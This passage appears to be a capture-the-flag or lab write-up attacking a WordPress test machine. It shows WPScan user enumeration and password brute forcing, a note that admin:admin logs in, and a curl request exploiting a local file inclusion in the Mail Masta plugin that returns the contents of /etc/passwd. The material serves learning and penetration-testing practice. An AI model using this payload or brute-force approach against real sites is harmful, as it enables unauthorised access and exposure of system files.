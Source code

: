 [+] Identified the following 2 user/s:
    +----+--------+--------+
    | Id | Login  | Name   |
    +----+--------+--------+
    | 1  | admin  | admin  |
    | 2  | wpuser | wpuser |
    +----+--------+--------+
[!] Default first WordPress username 'admin' is still used
[+] Starting the password brute forcer
  [!] ERROR: We received an unknown response for admin...
  Brute Forcing 'admin' Time: 00:00:02 <====================================================================================================================================================================> (52 / 52) 100.00% Time: 00:00:02

  Brute Forcing 'wpuser' Time: 00:00:02 <===================================================================================================================================================================> (52 / 52) 100.00% Time: 00:00:02


  +----+--------+--------+----------+
  | Id | Login  | Name   | Password |
  +----+--------+--------+----------+
  | 1  | admin  | admin  |          |
  | 2  | wpuser | wpuser |          |
  +----+--------+--------+----------+

[+] Finished: Fri Jun 23 04:49:31 2017
[+] Requests Done: 4523
[+] Memory used: 168.398 MB
[+] Elapsed time: 00:00:52
{% endhighlight %}

Try logging in as admin:admin, works

{% highlight bash %}
curl -v http://10.37.129.6/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
*   Trying 10.37.129.6...
* TCP_NODELAY set
* Connected to 10.37.129.6 (10.37.129.6) port 80 (#0)
> GET /wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd HTTP/1.1
> Host: 10.37.129.6
> User-Agent: curl/7.51.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 500 Internal Server Error
< Date: Sat, 10 Jun 2017 03:27:17 GMT
< Server: Apache/2.2.22 (Ubuntu)
< X-Powered-By: PHP/5.3.10-1ubuntu3
< Vary: Accept-Encoding
< Content-Length: 1745
< Connection: close
< Content-Type: text/html
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh